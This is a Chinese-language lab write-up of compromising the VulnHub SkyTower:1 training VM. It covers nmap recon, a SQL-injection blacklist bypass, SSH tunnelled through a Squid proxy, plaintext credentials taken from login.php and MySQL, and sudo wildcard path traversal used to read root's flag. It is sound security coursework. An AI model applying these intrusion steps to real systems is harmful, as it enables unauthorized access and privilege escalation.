




网络攻防实战 Lab09 Writeup
使用的靶机为 VulnHub SkyTower:1
渗透目的
取得目标靶机的 root 权限
了解基本的 SQL 查询；了解 Proxy 代理连接
具体操作
信息收集
启动 VirtualBox 中的 Kali 攻击机与靶机，网络采用 NAT 连接
ifconfig 获取攻击机的 ip 为 10.0.2.3，使用 nmap 扫描 ip：
1
2
3
4
5
6
7
8
9
10
11
12
13
14 | > nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-02 05:46 CST
Nmap scan report for 10.0.2.1
Host is up (0.00057s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for 10.0.2.2
Host is up (0.00038s latency).
MAC Address: 08:00:27:3D:F3:DE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.17
Host is up (0.0011s latency).
MAC Address: 08:00:27:83:79:65 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.3
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.02 seconds
|
考虑靶机 ip 为 10.0.2.17，继续扫描端口 nmap -p- -sV -sC 10.0.2.17，看看有哪些服务项
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25 | Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-02 05:47 CST
Nmap scan report for 10.0.2.17
Host is up (0.0023s latency).
Not shown: 65532 closed tcp ports (reset)
// 一个未开放的 SSH 服务
// 可能需要端口敲门，也可能要借助 3128 的 proxy 访问
PORT STATE SERVICE VERSION
22/tcp filtered ssh
// HTTP 服务，基于 Apache 2.2.22
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
// Squid 代理服务
PORT STATE SERVICE VERSION
3128/tcp open http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:83:79:65 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.04 seconds
|
同时确定靶机操作系统为 Debian
Getshell 尝试
HTTP 访问
发现是一个登录页面，尝试 SQL 注入：
| sqlmap -u 10.0.2.17 --forms --crawl=2 --risk=2 --level=3
// 一堆内容
[06:01:24] [INFO] testing for SQL injection on POST parameter 'email'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
// 一堆内容
[06:03:38] [ERROR] all tested parameters do not appear to be injectable. Try to increase values f '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some nd of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g.--tamper=space2comment') and/or switch '--random-agent', skipping to the next target
|
总之是没发现注入点，但是至少知道了这是 MySQL，手动注入时的一些报错信息也说明了这一点：
| # 账密输入为 test' 的输出：
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'test''' at line 1]
|
整理了一下，似乎有屏蔽 or 等关键词，考虑用 || 代替 or，使用了下面的变种万能密码注入成功：
（相比常见的万能密码，or 换成了 ||，结尾额外加上了注释符，注释后续内容）
进入了这样的页面：
提供了 SSH 的账密，并且引导我们登录 SSH
| Username: john
Password: hereisjohn
|
SSH 访问
直接访问会无法连接
| > ssh john@10.0.2.17 -p 22
ssh: connect to host 10.0.2.17 port 22: Connection timed out
|
上一个靶机采用的是端口敲门，但是这个靶机没有相应信息，考虑借助 3128 端口的代理服务访问 SSH（内网访问）
首先建立一个隧道
| proxytunnel -p 10.0.2.17:3128 -d 10.0.2.17:22 -a 1145
|
然后连接本地的代理端口
1
2
3
4
5
6
7
8
9
10
11
12
13
14 | > ssh -p 1145 john@127.0.0.1
john@127.0.0.1's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Dec 1 17:52:07 2025 from 10.0.2.17
Funds have been withdrawn
Connection to 127.0.0.1 closed.
|
发现成功登录上了 SSH，但是对面的程序在输出 Funds have been withdrawn 之后就直接断开了连接
上述情形最常见的一种实现是：在 ~/.bashrc （shell 配置文件）中添加这样的内容：
| echo "Funds have been withdrawn"
exit
|
所以最直接的方法就是在 SSH 连接的同时执行一条指令，比如验证我上述的猜测：
| > ssh -p 1145 john@127.0.0.1 "cat ~/.bashrc"
|
发现和我的猜测一致，退出操作在 ~/.bashrc 中配置，于是我们删除该文件：
| > ssh -p 1145 john@127.0.0.1 "rm -f ~/.bashrc"
|
完成 Getshell

提权尝试
在家目录 ls -al 一下发现没有有价值的内容：
| john@SkyTower:~$ ls -al
total 20
drwx------ 2 john john 4096 Dec 1 18:00 .
drwxr-xr-x 5 root root 4096 Jun 20 2014 ..
-rw------- 1 john john 7 Jun 20 2014 .bash_history
-rw-r--r-- 1 john john 220 Jun 20 2014 .bash_logout
-rw-r--r-- 1 john john 675 Jun 20 2014 .profile
|
看看服务器的账户：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25 | john@SkyTower:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
john:x:1000:1000:john,,,:/home/john:/bin/bash
sara:x:1001:1001:,,,:/home/sara:/bin/bash
william:x:1002:1002:,,,:/home/william:/bin/bash
|
发现还有另外两个 /bin/bash 的用户，但是没有家目录的访问权限
| john@SkyTower:~$ ls /home/sara
ls: cannot open directory /home/sara: Permission denied
john@SkyTower:~$ ls /home/william
ls: cannot open directory /home/william: Permission denied
|
甚至连 sudo -l 都没有权限
| john@SkyTower:~$ sudo -l
[sudo] password for john:
Sorry, user john may not run sudo on SkyTower.
|
考虑到之前 Getshell 时都是从 www-data 开始的，不妨在 /var/www 中翻一翻 SQL 库等信息：
| john@SkyTower:~$ cd /var/www
john@SkyTower:/var/www$ ls -la
total 5300
drwxr-xr-x 2 root root 4096 Jun 20 2014 .
drwxr-xr-x 12 root root 4096 Jun 20 2014 ..
-rwxr--r-- 1 root root 2831446 Jun 20 2014 background2.jpg
-rwxr--r-- 1 root root 2572609 Jun 20 2014 background.jpg
-rwxr--r-- 1 root root 1136 Jun 20 2014 index.html
-rwxr--r-- 1 root root 2393 Jun 20 2014 login.php
|
分析 login.php：
| login.php |
|---|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58 | <?php
# 数据库账密为 root - root
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
if($db->connect_errno > 0){
die('Unable to connect to database [' . $db->connect_error . ']');
}
# 这里我们发现了一些 SQL 注入的黑名单
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
# 黑名单内容替换为空格
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);
$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);
if(!$result)
die('There was an error running the query [' . $db->error . ']');
if($result->num_rows==0)
die('<br>Login Failed</br>');
$row = $result->fetch_assoc();
echo "<HTML>";
echo '
<div style="height:100%; width:100%;background-image:url(\'background.jpg\');
background-size:100%;
background-position:50% 50%;
background-repeat:no-repeat;">
<div style="
padding-right:8px;
padding-left:10px;
padding-top: 10px;
padding-bottom: 10px;
background-color:white;
border-color: #000000;
border-width: 5px;
border-style: solid;
width: 400px;
height:430px;
position:absolute;
top:50%;
left:50%;
margin-top:-215px; /* this is half the height of your div*/
margin-left:-200px;
">
';
echo "<br><strong><font size=4>Welcome ".$row["email"]."</font><br /> </br></strong>";
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account. For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"
?>
|
发现管理员账密明文存储，进行登录
然后进行大调查：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33 | mysql> SHOW DATABASES;
+--------------------+
| Database |
+--------------------+
| information_schema |
| SkyTech |
| mysql |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)
mysql> USE SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> SHOW TABLES;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login |
+-------------------+
1 row in set (0.00 sec)
mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email | password |
+----+---------------------+--------------+
| 1 | john@skytech.com | hereisjohn |
| 2 | sara@skytech.com | ihatethisjob |
| 3 | william@skytech.com | senseable |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
|
看上去我们得到了三名员工的账密，在 SSH 上验证：

成功访问了 Sara 账户，依旧是一些信息收集：
（后记：william 的账户似乎登录不上去）
1
2
3
4
5
6
7
8
9
10
11
12
13 | sara@SkyTower:~$ ls -al
total 16
drwx------ 2 sara sara 4096 Dec 1 18:33 .
drwxr-xr-x 5 root root 4096 Jun 20 2014 ..
-rw-r--r-- 1 sara sara 220 Jun 20 2014 .bash_logout
-rw-r--r-- 1 sara sara 675 Jun 20 2014 .profile
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User sara may run the following commands on this host:
(root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
|
发现 Sara 有对 /accounts/* 的 cat 和 ls 操作权限：
| # 甚至 ls -la 就可以
sara@SkyTower:~$ ls -la
total 8
drwxr-xr-x 2 root root 4096 Jun 20 2014 .
drwxr-xr-x 24 root root 4096 Jun 20 2014 ..
|
什么都没有。但是既然我们获得了 /accounts/* 的 root 访问权限，不妨进行地址绕过，越权访问其他文件，比如靶机开机提示语中提到的 flag.txt：
| sara@SkyTower:~$ sudo /bin/ls /accounts/../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
|
得到 root 密码，尝试登录：

提权成功，获得 root 账户
渗透结果
成功获得了 root 账户权限，修改密码在靶机登录

问题分析/启示
- 学会借助已有 proxy 服务搭建隧道，进行代理链接
其他
用时 2h
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}